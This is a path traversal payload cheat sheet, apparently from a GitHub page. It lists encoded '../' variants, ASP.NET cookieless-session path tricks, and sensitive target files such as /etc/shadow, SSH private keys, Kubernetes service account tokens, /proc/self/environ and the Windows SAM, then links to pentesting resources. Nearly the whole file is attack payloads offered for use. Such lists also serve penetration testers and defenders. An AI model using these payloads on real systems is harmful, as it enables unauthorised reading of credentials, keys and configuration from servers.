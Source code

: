 # Payloads
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
. = %u002e
/ = %u2215
\ = %u2216
. = %c0%2e, %e0%40%ae, %c0ae
/ = %c0%af, %e0%80%af, %c0%2f
\ = %c0%5c, %c0%80%5c
..././
...\.\
..;/
http://domain.tld/page.jsp?include=..;/..;/sensitive.txt 
. = %252e
/ = %252f
\ = %255c
\\localhost\c$\windows\win.ini
/(S(X))/
/(Y(Z))/
/(G(AAA-BBB)D(CCC=DDD)E(0-1))/
/(S(X))/admin/(S(X))/main.aspx
/(S(x))/b/(S(x))in/Navigator.dll
/MyApp/(S(X))/
/admin/(S(X))/main.aspx
/admin/Foobar/(S(X))/../(S(X))/main.aspx
url:file:///etc/passwd
url:http://127.0.0.1:8080
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/run/secrets/kubernetes.io/serviceaccount/token
/run/secrets/kubernetes.io/serviceaccount/namespace
/run/secrets/kubernetes.io/serviceaccount/certificate
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/plocate/plocate.db
/var/lib/mlocate.db
c:\windows\system32\license.rtf
c:\windows\system32\eula.txt
c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
root directory: "/"
directory separator: "/"
root directory: "<drive letter>:\"
directory separator: "\" or "/"
root directory: "<drive letter>:"
c:/documents and settings/administrator/ntuser.ini
c:/documents and settings/administrator/desktop/desktop.ini
c:/users/administrator/desktop/desktop.ini
c:/users/administrator/ntuser.ini
c:/system volume information/wpsettings.dat
C:/Windows/CSC/v2.0.6/pq
C:/Windows/CSC/v2.0.6/sm
C:/$Recycle.Bin/S-1-5-18/desktop.ini

# Resources
https://book.hacktricks.xyz/pentesting-web/file-inclusion
https://www.thehacker.recipes/web/inputs/directory-traversal
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md


















  
